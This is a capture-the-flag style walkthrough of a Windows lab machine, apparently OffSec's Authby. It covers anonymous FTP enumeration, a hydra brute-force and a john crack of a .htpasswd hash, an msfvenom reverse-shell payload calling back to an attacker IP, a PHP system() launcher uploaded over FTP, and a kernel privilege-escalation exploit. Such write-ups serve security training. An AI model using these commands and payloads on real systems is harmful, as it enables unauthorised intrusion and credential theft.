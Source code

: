 #windows 
### Summary
We will initially exploit this machine through Anonymous FTP. After logging in as the anonymous FTP user, we will deduce the password of the admin FTP account. We'll then use this account to discover additional system credentials which we'll use to trigger our uploaded reverse shell. Finally, we'LL escalate with a local privilege escalation exploit.
## Enumeration
### Nmap
We'll begin with an `nmap` scan.
```
kali@kali:~$ sudo nmap -p- 192.168.68.46
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-27 17:32 UTC
Nmap scan report for 192.168.68.46
Host is up (0.031s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
242/tcp  open  direct
3145/tcp open  csi-lfap
3389/tcp open  ms-wbt-server
```
Next, we'll launch an aggressive scan against the discovered open ports.
The results indicate that the FTP server allows anonymous authentication. In addition, an Apache web server is running on port 242.
### FTP Enumeration
Since FTP appears to be wide-open, let's log in as the `anonymous` user and enumerate available files and directories.

```
kali@kali:~$ ftp 192.168.68.46
Connected to 192.168.68.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.68.46:kali): anonymous
331 User name received, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 9680
----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
----------   1 root     root           25 Feb 10  2011 UninstallService.bat
----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
----------   1 root     root           17 Aug 13  2011 StopService.bat
----------   1 root     root           18 Aug 13  2011 StartService.bat
----------   1 root     root         8736 Nov 09  2011 Settings.ini
dr-xr-xr-x   1 root     root          512 Dec 28 01:37 log
----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
----------   1 root     root           23 Feb 10  2011 InstallService.bat
dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
dr-xr-xr-x   1 root     root          512 Aug 13 04:13 accounts
226 Closing data connection.
ftp>
```

The **accounts** directory looks interesting and is worth exploring.

```
ftp> cd accounts
250 CWD Command successful.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 4
dr-xr-xr-x   1 root     root          512 Aug 13 04:13 backup
----------   1 root     root          764 Aug 13 04:13 acc[Offsec].uac
----------   1 root     root         1030 Dec 28 01:38 acc[anonymous].uac
----------   1 root     root          926 Aug 13 04:13 acc[admin].uac
226 Closing data connection.
ftp> exit
221 Goodbye.
kali@kali:~$
```
This directory contains a UAC account file for the `admin` user.
## Exploitation
### FTP User Login Brute-Force
Let's brute-force the `admin` account with `hydra` and the **rockyou.txt** wordlist.
```
kali@kali:~$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.68.46
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-27 17:43:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344402 login tries (l:1/p:14344402), ~896526 tries per task
[DATA] attacking ftp://192.168.68.46:21/
[21][ftp] host: 192.168.68.46   login: admin   password: admin
[STATUS] attack finished for 192.168.68.46 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-27 17:43:44
kali@kali:~$
```
This reveals that the password is `admin`.
### Further FTP Enumeration
We can now log in to FTP with the `admin:admin` credentials and enumerate further.
```
kali@kali:~$ ftp 192.168.68.46
Connected to 192.168.68.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.68.46:kali): admin
331 User name received, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp>
```

Inside this user's directory, we find three files: **index.php**, **.htpasswd**, and **.htaccess**. Let's download them to our attack machine for closer inspection.
```
ftp> get index.php
local: index.php remote: index.php
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
76 bytes received in 0.10 secs (0.7232 kB/s)
ftp> get .htpasswd
local: .htpasswd remote: .htpasswd
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
45 bytes received in 0.11 secs (0.4185 kB/s)
ftp> get .htaccess
local: .htaccess remote: .htaccess
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
161 bytes received in 0.10 secs (1.5832 kB/s)
ftp> bye
221 Goodbye.
kali@kali:~$
```

The **index.php** file doesn't contain anything of value.
The **.htpasswd** file contains a password hash for the `offsec` user.
```
kali@kali:~$ cat .htpasswd 
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```
The **.htaccess** file indicates that the **.htpasswd** file is used for authentication.
```
kali@kali:~$ cat .htaccess
AuthName "Qui e nuce nuculeum esse volt, frangit nucem!"
AuthType Basic
AuthUserFile c:\\wamp\www\.htpasswd
<Limit GET POST PUT>
Require valid-user
</Limit>kali@kali:~$
```
This means that if we crack the hash, we can authenticate as the `offsec` user.
### Password Cracking
We can use `john` to attempt to crack the retrieved password hash.

```
kali@kali:~$ john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
elite            (offsec)
1g 0:00:00:00 DONE (2020-12-27 17:56) 8.333g/s 211200p/s 211200c/s 211200C/s 191192..260989
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~$
```
We discover that the password for the `offsec` user is `elite`.

## Foothold
We created a reverse shell exe using msfvenom and a php file to run the exploit. Then we uploaded it through the ftp. 
```
┌──(venv)─(kali㉿kali)-[~/OffSecPractice/Authby]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.233 LPORT=443 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: revshell.exe

┌──(venv)─(kali㉿kali)-[~/OffSecPractice/Authby]
└─$ cat run.php           
<?php
$exec = system('revshell.exe', $val)
?>                                                                                                        
┌──(venv)─(kali㉿kali)-[~/OffSecPractice/Authby]
└─$ 

```

## Privilege Escalation
We run the windows exploit suggester with the systeminfo and it suggested multiple priv esc suggestion.
Upon trying couple of them this one worked https://www.exploit-db.com/exploits/40564
CVE-2011-1249 #kernel_exploit #windows
Followed the exploitation as suggested and we got the administrator access.